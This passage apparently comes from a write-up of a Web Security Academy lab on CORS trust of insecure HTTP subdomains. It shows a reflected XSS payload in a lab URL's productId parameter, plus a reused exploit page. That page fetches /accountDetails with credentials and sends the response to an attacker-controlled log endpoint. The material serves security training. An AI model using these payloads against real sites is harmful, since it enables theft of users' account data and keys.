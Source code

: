 ![img](images/CORS%20vulnerability%20with%20trusted%20insecure%20protocols/6.png)

The url is the following one, a subdomain (stock) which uses HTTP:

```
http://stock.0a0900840416f0db818ac0da00ca0002.web-security-academy.net/?productId=%3Cscript%3Ealert(1)%3C/script%3E&storeId=1
```

CORS code from previous lab:

```
<html>
  <body>
    <script>
        var req = new XMLHttpRequest();
        var url = ("URL");
        req.onload = retrieveKeys;
        req.open('GET', url + "/accountDetails",true);
        req.withCredentials = true;
        req.send(null);
        function retrieveKeys() {
            location='/log?key='+this.responseText;
        };
  </script>
  <body>
</html>
```
